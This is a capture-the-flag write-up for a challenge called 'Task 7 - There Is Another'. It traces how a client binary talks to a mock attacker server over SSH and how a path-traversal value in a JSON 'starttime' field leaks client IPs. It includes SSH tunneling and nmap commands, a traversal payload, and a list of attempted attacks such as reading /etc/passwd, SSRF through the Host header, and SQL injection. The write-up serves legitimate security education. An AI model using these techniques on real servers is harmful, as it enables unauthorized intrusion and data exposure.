





# Task 7 - There Is Another


> Intelligence sources indicate with high probably there is a second device somewhere. We don't know where it is physically, but maybe you can find it's IP address somehow. We expect it is one of the up to 2^20 devices connected to the Blue Horizon Mobile network. Blue Horizon Mobile has explained that their internal network is segmented so all user devices are in the 100.64.0.0/12 IP range.
> 
> Figure out how the device communicates with the IP you found in the previous task. It must only do so on-demand otherwise we would have probably discovered it sooner. This will probably require some in depth reverse engineering and some guess work. Use what you learn, plus intuition and vulnerability research and exploitation skills to extract information from the server somehow. Your goal is to determine the IP addresses for any devices that connected to the same server. There should be two addresses, one for the downed device, and another for the second device. Your jumpbox account has been updated to allow you to open TCP tunnels to the server (reconnect to enable the new settings). Remember the jumpbox internal IP is 100.127.0.2
> 
> Downloads:
> - SSH host key to authenticate the jumpbox (optional, same as before) (jumpbox-ssh_host_ecdsa_key.pub)
> - SSH private key to authenticate to the jumpbox: user@external-support.bluehorizonmobile.com on TCP port 22 (same as before) (jumpbox.key)
> ---
> Prompt:
> - Enter device IP addresses, one per line (don't guess)

## Solution
We now need to figure out how the device is communicating with the IP address found in Task 6. There's a hint in the description that says it must only communicate "on-demand", which points to it being something that can be triggered by the attacker. Going back to Task 5, we can remember there was a `cmd_port` option listed in the `config` file and a separate thread within the `agent` executable responsible for executing commands. 


This thread is called from within `sub_400815`, the function that parses the config file and starts the various threads that perform that actually functionality of the `agent` program. We'll start by analyzing the command thread function located at `sub_401220`.



The above begins at the very start of the function and can be a little overwhelming at first. We see the familiar `starting cmd thread` string mentioned in Task 5 and then a number of actions performed that will come into play in the later challenges. The important part for now is the string `got command type=%s, nargs=%s` visible towards the bottom of the image which is then followed by a function call to `sub_401190`. As can be seen in the image below, the return value of this function is checked, and if `0`, the string `command failed` is printed.



Checking this return value and printing the failure string is a good indication that `sub_401190` is responsible for executing the actual command that the `agent` receives, so we'll inspect that function next.

Within the function `sub_401190`, we'll find a switch statement that looks like it's responsible for running various commands based on the case. We see some interesting strings beginning with `SSH` listed under case `1`. This is a very similar setup to the section in Task 5 that was responsible for running the `dropper` executable. The function `sub_411f000` is called with various capitalized strings and then there's a call to `sub_4356a0`. 



We know `sub_4356a0` was the function that actually executed the `dropper` executable in Task 5, and we can see this same function being passed the string `diagclient`, which is another executable we have access to after decrypting the partition from Task 4. The `DB` strings that were passed to `sub_411f00` in Task 5 ended up being environment variables, and we can see the `SSH` strings called by the same function appear as though they could also be environment variables being passed to the executable. We can confirm this by examining the `main.main` function from within the `diagclient` executable itself where we'll find calls to `os.Getenv` with the familiar strings passed as arguments or by attempting to run `diagclient` with its included logging functionality and comparing error outputs.



```
~ # /agent/diagclient -v 1
[diagclient] 1970/01/01 00:07:09.780496 logging enabled
[diagclient] 1970/01/01 00:07:09.783551 Failed to parse BALLOON_ID: invalid UUID length: 0
~ # BALLOON_ID=00000000-0000-0000-0000-000000000000 /agent/diagclient -v 1
[diagclient] 1970/01/01 00:07:53.605425 logging enabled
[diagclient] 1970/01/01 00:07:53.611860 Failed to read private key: open : no such file or directory
```

Now that we have a good idea of the information `diagclient` requires in order to successfully run, let's list out the environment variables and see which ones we're missing values for. We'll supply the "nil" UUID `00000000-0000-0000-0000-000000000000` for the `BALLOON_ID` since that at least passes the validity check. The `SSH_SERVER_ADDRESS` is likely the attacker's IP address from the last task, and we'll assume the `SSH_SERVER_PORT` is the standard port `22` since nothing points us elsewhere right now. We still need the `SSH_USERNAME`, `PRIVATE_KEY_PATH`, and `EXPECTED_HOST_KEY`. Our `config` file has an entry for `ssh_priv_key` located at `/private/id_ed25519`, so that's likely the path we're looking for, and back within our `agent` binary we can see the `SSH_USERNAME` environment variable is actually set to `nonroot_user`. 



At this point, the only unaccounted for environment variable is `EXPECTED_HOST_KEY`. We'll need this host key to match one of the actual host keys from the attacker's server which we can retrieve using `nmap`'s [ssh-hostkey script](https://nmap.org/nsedoc/scripts/ssh-hostkey.html). We'll first set up our local port forwarding through the jumpbox just as we did in Task 6, except this time replacing the  dead-drop server IP with the attacker's server and forwarding our connections to port 22 instead of 27017. 

```
ssh -i jumpbox.key -L 2222:100.89.114.48:22 user@external-support.bluehorizonmobile.com
nmap --script ssh-hostkey --script-args ssh_hostkey=full -p 2222 127.0.0.1
```

This `nmap` script returns two host keys back to us, and trial and error eventually shows it's the `ecdsa-sha-nistp256` key that works.

```
PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1
| ssh-hostkey:
|   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM/joHIwMe2YhRvA4MN7uPZg5WVQiRD048iPCRo3yPLJbeM5xe9AfMPZ6s+BJX8NK1gw/1aocaQ46A8YaXJTiss=
|_  ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMvWDwCrMFrFmqBex0FoCeMTBesPYaKYA5xSyVKXgJtl
```

A full list of the environment variables used for a successful connection to the server using `diagclient` is included below. Note the `SSH_SERVER_ADDRESS` and `SSH_SERVER_PORT` have been changed to reflect the local port forwarding set up through the jumpbox which has been configured to use local port `2222`.

```
SSH_SERVER_ADDRESS=127.0.0.1
SSH_SERVER_PORT=2222
PRIVATE_KEY_PATH=/private/id_ed25519
SSH_USERNAME=nonroot_user
EXPECTED_HOST_KEY='ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM/joHIwMe2YhRvA4MN7uPZg5WVQiRD048iPCRo3yPLJbeM5xe9AfMPZ6s+BJX8NK1gw/1aocaQ46A8YaXJTiss='
BALLOON_ID=00000000-0000-0000-0000-000000000000
```

With these set, we can now run `diagclient` and observe its output after a successful connection.

```
~ # /agent/diagclient -v 1
[diagclient] 1970/01/01 01:25:27.073769 logging enabled
[diagclient] 1970/01/01 01:25:27.349940 connected
[diagclient] 1970/01/01 01:25:27.662674 opened session
[diagclient] 1970/01/01 01:25:27.665210 collect SystemInfo
[diagclient] 1970/01/01 01:25:27.938025 create StatusUpdate
[diagclient] 1970/01/01 01:25:27.938650 writing request
[diagclient] 1970/01/01 01:25:27.946711 wrote request
[diagclient] 1970/01/01 01:25:32.713644 wait for server logs...
[diagclient] 1970/01/01 01:25:33.716269 wait for server logs...done
[diagclient] 1970/01/01 01:25:33.717922 response: &{200 OK 200 HTTP/1.1 1 1 map[Content-Length:[75]] 0x40000bc280 75 [] false false map[] 0x40002df900 <nil>}
[diagclient] 1970/01/01 01:25:33.723281 No next command. Done.
```

Without being able to see what it's actually sending, this doesn't help us much, but it at least confirms we're able to successfully connect and interact with the attacker's server. Connecting directly over SSH isn't very revealing either, only giving us some log output that includes `Diagnostic Server starting..` and `Starting connection timer...`. It seems the server is likely using command restriction within the `authorized_keys` file to launch this `Diagnostic Server` process whenever we connect. Our next goal will be to find out what's actually being sent over this SSH connection.

We can set up our own local SSH server within the Docker container we've been using and then configure the `diagclient` to connect to it and send us its initial request so that we can read it in plaintext. We'll need to install `openssh-client` within the container, start it with `service sshd start`, and then generate some SSH keys with `ssh-keygen -t ed25519`. We also need to get the local ECDSA host key within `/etc/ssh/ssh_host_ecdsa_key.pub` so that we can set the `EXPECTED_HOST_KEY` variable. Lastly, we'll write a small script that will be launched upon successful connection that will log any input into a file that we can later inspect. We'll save this script into the file `/root/logger` within our container and then configure it to launch once an SSH connection is received by adding the line `command=/root/logger <SSH public key>` to our `authorized_keys` file.

```bash
#!/bin/bash
logfile='/tmp/logfile'

while IFS= read -r input || [ -n "$input" ]; do
  echo "$input" >> "$logfile"
done
```

Once this is all done, we can update the environment variables for the `diagclient` running within QEMU and then execute it again to connect to our server and log its request.

```
POST /diagnostics HTTP/1.1
Host: localhost
User-Agent: Go-http-client/1.1
Content-Length: 3037
Accept-Encoding: gzip

{"status_data":{"balloon_id":"00000000-0000-0000-0000-000000000000","system_info":{"memory_info":{"total":966606848,"available":927588352,"used":23146496,"usedPercent":2.3946132854212925,"free":906031104,"active":17383424,"inactive":10907648,"wired":0,"laundry":0,"buffers":3817472,"cached":33611776,"writeback":0,"dirty":0,"writebacktmp":0,"shared":0,"slab":21987328,"sreclaimable":10362880,"sunreclaim":11624448,"pagetables":323584,"swapcached":0,"commitlimit":483303424,"committedas":44023808,"hightotal":0,"highfree":0,"lowtotal":0,"lowfree":0,"swaptotal":0,"swapfree":0,"mapped":6823936,"vmalloctotal":269240696832,"vmallocused":2310144,"vmallocchunk":0,"hugepagestotal":0,"hugepagesfree":0,"hugepagesize":0},"disk_info":{"path":"/","fstype":"ext2/ext3","total":223911936,"free":199004160,"used":12062720,"usedPercent":5.715117407335533,"inodesTotal":62720,"inodesUsed":471,"inodesFree":62249,"inodesUsedPercent":0.7509566326530612},"cpu_info":[{"cpu":0,"vendorId":"ARM","family":"","model":"0xd03","stepping":4,"physicalId":"","coreId":"0","cores":1,"modelName":"","mhz":0,"cacheSize":0,"flags":["fp","asimd","evtstrm","aes","pmull","sha1","sha2","crc32","cpuid"],"microcode":""},{"cpu":1,"vendorId":"ARM","family":"","model":"0xd03","stepping":4,"physicalId":"","coreId":"1","cores":1,"modelName":"","mhz":0,"cacheSize":0,"flags":["fp","asimd","evtstrm","aes","pmull","sha1","sha2","crc32","cpuid"],"microcode":""},{"cpu":2,"vendorId":"ARM","family":"","model":"0xd03","stepping":4,"physicalId":"","coreId":"2","cores":1,"modelName":"","mhz":0,"cacheSize":0,"flags":["fp","asimd","evtstrm","aes","pmull","sha1","sha2","crc32","cpuid"],"microcode":""},{"cpu":3,"vendorId":"ARM","family":"","model":"0xd03","stepping":4,"physicalId":"","coreId":"3","cores":1,"modelName":"","mhz":0,"cacheSize":0,"flags":["fp","asimd","evtstrm","aes","pmull","sha1","sha2","crc32","cpuid"],"microcode":""}],"process_info":[{"pid":1,"name":"init","executable":"/bin/busybox","cpu_percentage":0.04345160845197537,"memory_percentage":0.0029662526,"num_threads":1},{"pid":123,"name":"dropbear","executable":"/bin/dropbearmulti","cpu_percentage":0.0006213514589220191,"memory_percentage":0.0076275063,"num_threads":1},{"pid":136,"name":"udhcpc","executable":"/bin/busybox","cpu_percentage":0.038193664650171405,"memory_percentage":0.0076275063,"num_threads":1},{"pid":142,"name":"sh","executable":"/bin/busybox","cpu_percentage":0.03330406345069223,"memory_percentage":0.14661762,"num_threads":1},{"pid":143,"name":"init","executable":"/bin/busybox","cpu_percentage":0.00012567564460978672,"memory_percentage":0.0084750075,"num_threads":1},{"pid":144,"name":"init","executable":"/bin/busybox","cpu_percentage":0.00012567556007232292,"memory_percentage":0.0084750075,"num_threads":1},{"pid":145,"name":"init","executable":"/bin/busybox","cpu_percentage":0,"memory_percentage":0.0084750075,"num_threads":1},{"pid":723,"name":"diagclient","executable":"/agent/diagclient","cpu_percentage":63.18118355643173,"memory_percentage":0.7487669,"num_threads":6}]}}}
```

The log shows `diagclient` is tunneling HTTP over SSH and makes a POST request to the `/diagnostics` endpoint, sending along some diagnostics information (as expected based on the name) in JSON format. Going back to the `diagclient` executable, we can find some of this functionality within the `main.main` function where we see `encoding/json.Marshall` called at `0x0259ee0` and `net/http.NewRequestWithContext` called at `0x00259f80` with the arguments `POST` and `http://localhost/diagnostics`.

Now that we know the request format, we can connect to the server directly again (through the jumpbox) instead of using `diagclient` and send a properly formatted request. We'll send an empty JSON and see what we get back.

```
~ # ssh -i id_ed25519 -p 2222 nonroot_user@127.0.0.1
PTY allocation request failed on channel 0
2023/10/01 15:32:02 Diagnostic Server starting...
2023/10/01 15:32:07 ready
{diagserver} 2023/01/12 15:32:07.926755 Starting connection timer...
POST /diagnostics HTTP/1.1
Content-Length: 6

{}
{diagserver} 2023/10/01 15:32:29.205633 received StatusUpdate without CommandResponse
{diagserver} 2023/10/01 15:32:29.205671 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>HTTP/1.1 200 OK
Content-Length: 75
```

We're sent back the message `received StatusUpdate without CommandResponse` along with an `encoded next command` array. Converting this to a bytearray in Python gives us a better idea of what it actually says.

```python
#!/usr/bin/env python3

array = "123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125"
array = [int(x) for x in array.split(" ")]

print(bytearray(array).decode())
```

The above prints out `{"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}`. It appears the server can send back a specific command it wants the `diagclient` to run along with any necessary arguments. This aligns with some of the functionality found within the `diagclient` binary, specificly the `main.RunCommand` function found at `0x0025aed0`. Since we now know the expected format of the response JSON from the server, we can go back to our logger script and adjust it so that it sends back a valid response to `diagclient`. We'll then log the response to our command and discover more about the message formats.

We can instruct the client to run the `id` command using the response `{"id":"00000000-0000-0000-0000-000000000000","cmd_name":"id","cmd_args":null}`. Checking our log file, we see similar diagnostic output but with an additional `command_response` field added to the end that includes the output of our command along with some additional information.

```
POST /diagnostics HTTP/1.1
Host: localhost
User-Agent: Go-http-client/1.1
Content-Length: 3250
Accept-Encoding: gzip

...,"command_response":{"id":"00000000-0000-0000-0000-000000000000","starttime":"1970-01-01T16:50:13+00:00","endtime":"1970-01-01T16:50:13+00:00","cmd":"id","stdout":"uid=0(root) gid=0\n","stderr":"","err":""}}
```

We now have a fairly good idea of how the client and server talk to each other including message formats and general functionality. There's a number of places we could explore for potential exploits, but we'll eventually find we're able to leak information from the server through the `starttime` field in the `command_response` by sending an invalid value. The time fields are required to be 25 characters long and the `starttime` field is concatenated into a string that's used for a directory path. Due to this, including backslashes in the field can cause an error or lead to path traversal. The below command to the server demonstrates an example of this.

```
~ # ssh -i id_ed25519 -p 2222 nonroot_user@127.0.0.1
PTY allocation request failed on channel 0
2023/10/01 16:30:49 Diagnostic Server starting...
2023/10/01 16:30:54 ready
{diagserver} 2023/10/01 16:30:54.617891 Starting connection timer...
POST /diagnostics HTTP/1.1
Content-Length: 104

{"command_response":{"endtime":"0000000000000000000000000","starttime":"000000000000000000000000/"}}
{diagserver} 2023/10/01 16:31:26.690929 received StatusUpdate with CommandResponse
{diagserver} 2023/10/01 16:31:26.691015 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/000000000000000000000000/.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/000000000000000000000000/.json: no such file or directory
```

The error message reveals the command results are stored in directories derived from the client IPs. The above IP can be converted from `64/7F/00/02` to `100.127.00.2` which we know to be the jumpbox's IP address. With this information, we can use a combination of directory traversal and the resulting error messages to discover the other client IPs. The `solve.py` script in this repository attempts to automate this process, eventually printing out `100.70.194.50` and `100.74.132.50`.

## Addendum
I tried to make the above as logically linear as possible in hopes of being able to properly explain the solution, but my actual path to solving was much more chaotic and haphazard. I spent the most time on this challenge out of all nine and thought I was going to be stuck here for good a few different times. This was the only challenge I reached out to `Get-Help` for, but just the process of typing up my question helped me organize my thoughts enough to see where I had more room to explore. It was extremely rewarding in the end to hit so many walls and then finally find the error message due to the misformatted path. I've included my `Get-Help` messages below to better illustrate what my actual process looked like during the challenge.

<pre>
<b>You</b> Sun Oct 01 2023 9:45:08 AM

Hello! I'm wondering if it would be possible to provide any feedback or pointers on my approach to task 7. Apologies for the long post, but I wanted to try to summarize my findings and attempts so far for more context.

<b>Findings</b>
- <b>agent</b> starts a few threads used for upload, collection, and commands
- the command thread starts a listener on UDP port 9000
- if the listener receives a command, it checks it against a switch statement
- one of the cases in the switch statement instructs the <b>agent</b> to run the <b>diagclient</b> binary (binary itself also accepts a "-v" command line option that can increase log verbosity when it's directly run)
- environment variables for successful <b>diagclient</b> execution (assuming it could directly reach the threat actor and isn't going through the jumpbox)
    - SSH_SERVER_ADDRESS: 100.89.114.48
    - SSH_SERVER_PORT: 22
    - SSH_USERNAME: nonroot_user
    - PRIVATE_KEY_PATH: /private/id_ed25519
    - EXPECTED_HOST_KEY: ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM/joHIwMe2YhRvA4MN7uPZg5WVQiRD048iPCRo3yPLJbeM5xe9AfMPZ6s+BJX8NK1gw/1aocaQ46A8YaXJTiss=
    - BALLOON_ID: 00000000-0000-0000-0000-000000000000 (filler UUID)
- the threat actor's server uses the <b>command</b> option within <b>authorized_keys</b> to restrict direct access to the server and instead starts up the <b>diagserver</b> process
- the <b>diagclient</b> collects diagnostics information on the balloon device (system_info, disk_info, cpu_info, process_info), puts it into the <b>status_data</b> field of a JSON and then POSTs it to the diagserver at the <b>/diagnostics</b> endpoint
- the diagserver accepts the data and sends back its own JSON containing the next command to run in the format:
    {
        "id":"00000000-0000-0000-0000-000000000000",
        "cmd_name":null,
        "cmd_args":null
    }
- haven't been able to get any responses from the diagserver that contain a command to run, but if the diagclient receives a JSON with an actual command in place of null, it executes the command and then sends back another JSON with diagnostic information and the command results in the format:
    {
        "status_data": {...},
        "command_response": {
        "id": "00000000-0000-0000-0000-000000000000",
        "starttime": "1970-01-01T02:49:28+00:00",
        "endtime": "1970-01-01T02:49:28+00:00",
        "cmd": "ls",
        "stdout": "agent\nagent_restart\nconfig\ndiagclient\ndropper\nlost+found\nstart\n",
        "stderr": "",
        "err": ""
        }
    }

<b>Exploit Attempts</b>
- searching for additional HTTP endpoints on the diagserver, thinking it might be recording connections in a log file in the same directory that could be accessible with a direct request
- directory traversal to escape the diagserver's root and retrieve sensitive files with additional information on the host
    - requests to the diagserver for paths such as "/../../../../../../../etc/passwd" return a "301 Moved Permanently" response, so I tried using the "CONNECT" HTTP method, similar to the approach used in this blog post (https://ilya.app/blog/servemux-and-path-traversal), to prevent URL canonicalization
- "Host" header injection attacks that specify different locations on the server rather than just localhost and would permit SSRF, e.g., "Host: localhost:3306" to see if it would send the request to an SQL server only listening internally or even to an external server
- using different protocols in absolute URLs sent to the server to see if it would initiate any external connections or retrieve local files, e.g., "GET http://<external_ip>" HTTP/1.1" or "GET file:///etc/passwd"
- sending various values and objects in JSON response to the server to see if there was some sort of JSON unmarshalling vulnerability
- thought the diagserver could possibly be looking up balloons or command responses in an SQL database using either the <b>balloon_id</b> value in the <b>status_data</b> field or the <b>id</b> value in the <b>command_response</b> field and that SQL injection might be possible to extract information from the database, but the UUIDs need to be properly formatted and only allow hex characters so I haven't been able to successfully test any payloads
- thought the diagserver might instead be using a non-relational database (similar to the MongoDB server from task 6) to store JSON responses, but didn't have success with any NoSQL injection payloads
- scp / sftp / ssh tricks to bypass the authorized_keys "command" option (looks like X-11 forwarding, port forwarding, etc. are all disabled and direct command execution isn't possible)

Out of the above attempts, I thought the most promising was some sort of blind SQL injection attack on one of the fields sent back in the JSON responses that would allow you to slowly extract information from a database being used to store diagnostic information and command responses (including balloon IP addresses since we know the network range of the user devices from the task description). Still grinding away but any pointers or feedback that's allowed would be greatly appreciated! Loving the whole event and learning a ton. Thank you!
</pre>

<pre>
<b>You</b> Sun Oct 01 2023 10:57:16 AM

Just found "/diagnostics/var/logs/commands/by-ip" through an error message...Please ignore all of the above!
</pre>
